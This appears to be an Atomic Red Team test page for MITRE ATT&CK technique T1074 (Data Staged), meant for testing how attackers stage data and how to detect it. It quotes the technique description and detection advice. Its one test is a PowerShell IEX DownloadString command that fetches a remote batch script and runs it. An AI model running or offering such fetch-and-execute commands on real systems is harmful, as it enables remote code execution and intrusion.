# T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as Data Compressed or Data Encrypted.

Interactive command shells may be used, and common functionality within cmd and bash may be used to copy data into a staging location.

Detection: Processes that appear to be reading files from disparate locations and writing them to the same directory or file may be an indication of data being staged, especially if they are suspected of performing encryption or compression on the files.

Monitor processes and command-line arguments for actions that could be taken to collect and combine files. Remote access tools with built-in features may interact directly with the Windows API to gather and copy to a location. Data may also be acquired and staged through Windows system management tools such as Windows Management Instrumentation and PowerShell.

Platforms: Linux, macOS, Windows

Data Sources: File monitoring, Process monitoring, Process command-line parameters</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/Discovery.bat')" > c:\windows\pi.log
```
<br/>
